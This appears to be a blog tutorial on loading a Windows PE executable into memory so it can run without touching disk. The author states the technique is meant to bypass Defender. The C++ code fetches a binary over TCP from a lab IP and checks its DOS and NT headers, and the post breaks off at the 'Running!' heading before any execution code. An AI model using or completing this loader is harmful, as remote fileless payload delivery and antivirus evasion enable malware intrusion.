 ```yaml
---
title: Remote Run PE 
layout: post
---
```


## Intro

Hi , today I will tell you how we can execute PE in memory and how we can bypass defender by using this 

## What is PE ?

PE (Portable Executable) is an executable and object file format used in Windows family operating systems such as Windows NT, Windows 2000, Windows XP, Windows 7, Windows 10, and others.

PE files include executable files (usually with the .exe extension), dynamic libraries (DLLs), and other file types that can be run on the Windows platform. The PE format was introduced in Windows NT and replaced the older NE (New Executable) format used in earlier versions of the operating system.

In brief, a PE file is an executable file format such as .exe (executable programs) and .dll (dynamic libraries) used in Windows operating systems.

You can read more here https://0xrick.github.io/win-internals/pe2/

## How to run PE in memory ?

In order to run a PE file, first of all it must be received, in our case we will receive the file using tcp and store this buffer in memory.

In my example, when connecting to the server, it asks to get the file size to increase the buffer, then the client sends a start command to get the file. After the server sends the file, we save it to the buffer as vector<char>. 

```cpp
    printf("[+] Connecting!\n");

    //Initialize tcp client class 
    TCPClient tcpClient;

    //Receiving buffer
    std::vector<char> recvBuff;
    int iResult;

    //Value to check correct actions
    BOOL bConnResult;
    BOOL bSendResult;

    // Contecting to server
    bConnResult = tcpClient.connectToServer("192.168.222.128", 4443);;
    if (!bConnResult) {
        return CONNECTION_ERROR;
    }

    printf("[+] Connected!\n");
    printf("[+] Send command to get file size!\n");

    // Send to the server to get file size
    bSendResult = tcpClient.sendToServer("GetFileSize");
    if (!bSendResult) {
        return SENDING_ERROR;
    }

    // validation
    iResult = tcpClient.reciveData();
    if (iResult <= 0) {
        return RECIVE_DATE_ERROR;
    }

    // Getting received buffer 
    recvBuff = tcpClient.getBuffer();

    // vector<char> to string 
    std::string sFileLength(recvBuff.begin(), recvBuff.end());
    printf("[+] Received data: %s\n", sFileLength.c_str());

    // str to int 
    int iFileLength = std::stoi(sFileLength);

    // Change the buffer length for the received data  
    tcpClient.setBufLen(iFileLength);

    printf("[+] Send command to load PE!\n");

    //Send to the server for load PE in memory
    bSendResult = tcpClient.sendToServer("start");
    if (!bSendResult) {
        return SENDING_ERROR;
    }

    //We use delay to make sure the server sends the whole file.
    Sleep(1000 * 5);

    // Getting data
    iResult = tcpClient.reciveData();
    if (iResult <= 0 ) {
        return RECIVE_DATE_ERROR;
    }

    // save to our buffer 
    recvBuff = tcpClient.getBuffer();
    printf("[+] Received data: %.*s\n", iResult, recvBuff.data());
```

You can learn more about how my TCPClient class works, I have left comments, for more details you can write to me in Telegram. 

Once we have the file, we move on to the juice itself.

### Execute PE in Memory 

After getting the file, we need to check the correctness of our PE file.
How do we do this? It's simple, we need to get DOS Header and NT Header.

### What is DOS Header ?

DOS-header is a data structure located at the very beginning of a PE file and its first value is the signature sequence MZ (0x4D5A), which serves to identify the file format and determine whether the file is a PE or not

You can read more here https://0xrick.github.io/win-internals/pe3/


What the DOS structure looks like:
```cpp
    typedef struct _IMAGE_DOS_HEADER {      // DOS .EXE header
        WORD   e_magic;                     // Magic number
        WORD   e_cblp;                      // Bytes on last page of file
        WORD   e_cp;                        // Pages in file
        WORD   e_crlc;                      // Relocations
        WORD   e_cparhdr;                   // Size of header in paragraphs
        WORD   e_minalloc;                  // Minimum extra paragraphs needed
        WORD   e_maxalloc;                  // Maximum extra paragraphs needed
        WORD   e_ss;                        // Initial (relative) SS value
        WORD   e_sp;                        // Initial SP value
        WORD   e_csum;                      // Checksum
        WORD   e_ip;                        // Initial IP value
        WORD   e_cs;                        // Initial (relative) CS value
        WORD   e_lfarlc;                    // File address of relocation table
        WORD   e_ovno;                      // Overlay number
        WORD   e_res[4];                    // Reserved words
        WORD   e_oemid;                     // OEM identifier (for e_oeminfo)
        WORD   e_oeminfo;                   // OEM information; e_oemid specific
        WORD   e_res2[10];                  // Reserved words
        LONG   e_lfanew;                    // Offset to the NT header
    } IMAGE_DOS_HEADER, *PIMAGE_DOS_HEADER;
```

What do we need it for? To get a signature value, to check if PE is correct. 
How do we test this? Like this. 

```cpp
    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)buff;
    if (dosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
        printf("[!] Incorrect dos header...\n");
        return false;
    }
```

Once we have the DOS Header , we can now get the NT Header 

### What is NT Header?

NT Header (or NT header) is the part of the PE structure responsible for describing the basic parameters of the executable file in the operating system.

You can read more here https://0xrick.github.io/win-internals/pe4/

This is how the structure looks like for 32 and 64 bit systems:
**32-bit Version:**
```
    typedef struct _IMAGE_NT_HEADERS {
    DWORD                   Signature;
    IMAGE_FILE_HEADER       FileHeader;
    IMAGE_OPTIONAL_HEADER32 OptionalHeader;
    } IMAGE_NT_HEADERS32, *PIMAGE_NT_HEADERS32;

```

**64-bit Version:**
```
    typedef struct _IMAGE_NT_HEADERS64 {
        DWORD                   Signature;
        IMAGE_FILE_HEADER       FileHeader;
        IMAGE_OPTIONAL_HEADER64 OptionalHeader;
    } IMAGE_NT_HEADERS64, *PIMAGE_NT_HEADERS64;
```

This structure will also help us to determine the validity of the received PE file 
How can we do that? Here's the code 

```cpp
    PIMAGE_NT_HEADERS lpNtHdr = (PIMAGE_NT_HEADERS)(buff + dosHeader->e_lfanew);
    if (lpNtHdr->Signature != IMAGE_NT_SIGNATURE) {
        printf("[!] Incorrect NT signature...\n");
        return false;
    }
```

## Running!







